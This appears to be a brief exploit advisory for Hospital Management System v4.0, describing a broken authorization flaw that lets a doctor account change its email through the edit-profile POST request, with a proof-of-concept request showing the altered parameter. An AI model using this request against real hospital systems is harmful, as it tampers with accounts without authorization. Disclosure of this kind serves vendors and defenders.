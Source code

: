 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update his email that cannot modify in UI.

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/edit-profile.php HTTP/1.1
...

fname=user1&address=aaaaaa&city=abbb&gender=male&uemail=user2%40test.com(CHANGE HERE)&submit=
```